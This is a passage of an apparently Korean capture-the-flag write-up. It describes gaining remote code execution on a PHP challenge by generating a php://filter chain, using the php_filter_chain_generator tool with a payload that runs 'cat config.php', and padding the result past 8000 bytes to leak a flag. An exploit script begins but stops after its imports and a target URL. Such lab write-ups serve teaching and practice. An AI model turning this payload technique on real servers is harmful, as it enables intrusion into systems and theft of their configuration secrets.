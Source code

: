 https://github.com/synacktiv/php_filter_chain_generator    
       

RCE를 위해 `php://filter`에 대한 payload를 생성해주는 툴을 사용했다. 

```bash
python3 php_filter_chain_generator.py --chain '<?php system("cat config.php") ?>'
```         
     
위 명령을 통해 나온 결과에 `+` 문자를 추가하여 8000 bytes를 넘도록 해주었다. (`cat config.php` 명령을 입력한 이유는 `config.php`에 `flag` 변수가 존재하기 때문이다.)
     
## Exploit Code     
      
```python
import requests, string, sys, itertools
# MD5: 36f4dab9f17485e9efc5a1c4e4cbedfb

url = "http://3.34.190.217:24913"

```